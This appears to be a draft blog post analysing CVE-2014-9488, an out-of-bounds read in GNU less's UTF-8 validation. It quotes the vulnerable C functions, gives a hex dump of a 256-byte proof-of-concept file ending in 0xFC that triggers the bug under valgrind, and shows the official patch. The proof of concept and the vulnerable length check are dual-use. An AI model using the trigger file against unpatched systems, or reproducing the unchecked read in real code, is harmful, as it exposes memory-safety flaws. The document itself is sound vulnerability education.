 ```yaml
---
title: "CVE-2014-9488"
date: 2020-06-19T12:47:39+08:00
draft: true
---
```


# CVE-2014-9488 (`less` out-of-bounds read)

The `is_utf8_well_formed` function in GNU `less` before version 475 allows remote attackers to have unspecified impact via malformed UTF-8 characters, which triggers an out-of-bounds read. More details are shown on {{< remote "CVE Details" "https://www.cvedetails.com/cve/CVE-2014-9488/" >}}.

## Bug Detail

The `bin_file` function in `filename.c` is called when using `less` to display a file to determine if the file is binary. It calls `utf_bin_count` function which returns the number of invalid UTF-8 sequences found in a buffer:

```c
public int bin_file(f)
	int f;
{
	int n;
	int bin_count = 0;
	char data[256];
	char* p;
	char* pend;

	if (!seekable(f))
		return (0);
	if (lseek(f, (off_t)0, SEEK_SET) == BAD_LSEEK)
		return (0);
	n = read(f, data, sizeof(data));
	if (n <= 0)
		return (0);
	if (utf_mode)
	{
		bin_count = utf_bin_count(data, n);
	}
    /* ...other code... */ 
}
```

```c
public int utf_bin_count(data, len)
	unsigned char *data;
	int len;
{
	int bin_count = 0;
	while (len > 0)
	{
		if (is_utf8_well_formed(data))
		{
			int clen = utf_len(*data);
			data += clen;
			len -= clen;
		} else
		{
			/* Skip to next lead byte. */
			bin_count++;
			do {
				++data;
				--len;
			} while (len > 0 && !IS_UTF8_LEAD(*data));
		}
	}
	return (bin_count);
}
```

Subsequently, `is_utf8_well_formed` is called to check whether the paramenter passed in points to the lead byte of a well-formed UTF-8 character:

```c
public int is_utf8_well_formed(s)
	unsigned char *s;
{
	int i;
	int len;

	if (IS_UTF8_INVALID(s[0]))
		return (0);

	len = utf_len((char) s[0]);
	if (len == 1)
		return (1);
	if (len == 2)
	{
		if (s[0] < 0xC2)
		    return (0);
	} else
	{
		unsigned char mask;
		mask = (~((1 << (8-len)) - 1)) & 0xFF;
		if (s[0] == mask && (s[1] & mask) == 0x80)
			return (0);
	}

	for (i = 1;  i < len;  i++)
		if (!IS_UTF8_TRAIL(s[i]))
			return (0);
	return (1);
}
```

Problem arises when `s+len` passes the end of the buffer `s`, which would result in out-of-bounds read in the `for` loop at line 26.


## POC

The software version used to demonstrate this CVE is `less 481`, with the patch for this CVE manually reverted back. This is because the posted versions online which are before 475 don't have this feature implemented, and the versions online after 475 all have the CVE patch applied.

To trigger the out-of-bounds read, we need to make the `utf_len` function calculate wrong length, thus making `len` greater than what it should be. The `utf_len` function is as follows:

```c
public int utf_len(ch)
	char ch;
{
	if ((ch & 0x80) == 0)
		return 1;
	if ((ch & 0xE0) == 0xC0)
		return 2;
	if ((ch & 0xF0) == 0xE0)
		return 3;
	if ((ch & 0xF8) == 0xF0)
		return 4;
	if ((ch & 0xFC) == 0xF8)
		return 5;
	if ((ch & 0xFE) == 0xFC)
		return 6;
	/* Invalid UTF-8 encoding. */
	return 1;
}
```

From here, we can see that if we make the last byte of the input file to be `0xFC`, when `s` is pointing to this last byte, the `utf_len` function will return `6` since `0xFC & 0xFE == 0xFC`. Besides, we know from the `bin_file` function that the buffer has 256 bytes, we can construct an input file with 256 bytes and last byte as `0xFC`. By using `hexedit`, we can create such a file:

```vim
47 49 46 38  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 FC
```

Running the vulnerable version of `less` with `valgrind` and the input above, we can get `valgrind` to report an `Conditional jump or move depends on uninitialised value(s)` error, as the out-of-bounds read occurs in an `if` clause.


## Patch

Here is the offical patch for this CVE:

```diff
--- less-474/charset.c	2015-01-31 00:20:28.000000000 +0100
+++ less-475/charset.c	2015-05-02 22:08:38.000000000 +0200
@@ -506,8 +506,9 @@
  * Does the parameter point to the lead byte of a well-formed UTF-8 character?
  */
 	public int
-is_utf8_well_formed(s)
+is_utf8_well_formed(s, slen)
 	unsigned char *s;
+	int slen;
 {
 	int i;
 	int len;
@@ -516,6 +517,8 @@
 		return (0);
 
 	len = utf_len((char) s[0]);
+	if (len > slen)
+		return (0);
 	if (len == 1)
 		return (1);
 	if (len == 2)
@@ -547,7 +550,7 @@
 	int bin_count = 0;
 	while (len > 0)
 	{
-		if (is_utf8_well_formed(data))
+		if (is_utf8_well_formed(data, len))
 		{
 			int clen = utf_len(*data);
 			data += clen;
```

## References

1. {{< remote "CVE Details entry" "https://www.cvedetails.com/cve/CVE-2014-9488/" >}}
2. {{< remote "Blog post from The Fuzzing Project" "https://blog.fuzzing-project.org/3-less-out-of-bounds-read-access-TFPA-0022014.html" >}}

